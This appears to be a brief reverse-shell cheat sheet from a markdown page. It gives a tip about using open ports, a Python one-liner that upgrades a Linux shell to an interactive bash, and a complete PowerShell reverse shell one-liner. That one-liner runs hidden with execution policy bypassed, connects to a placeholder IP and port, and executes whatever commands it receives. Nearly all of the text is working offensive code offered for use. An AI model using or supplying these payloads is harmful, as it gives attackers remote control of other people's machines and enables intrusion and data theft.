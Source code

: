 # Gold Rule #
  * Only use open ports to do your rev shell. If a port is closed it will never establish a connection

# Upgrade Linux Shell with Python #
 * python -c 'import pty; pty.spawn("/bin/bash")'

# Windows #
1. Powershell
  * powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
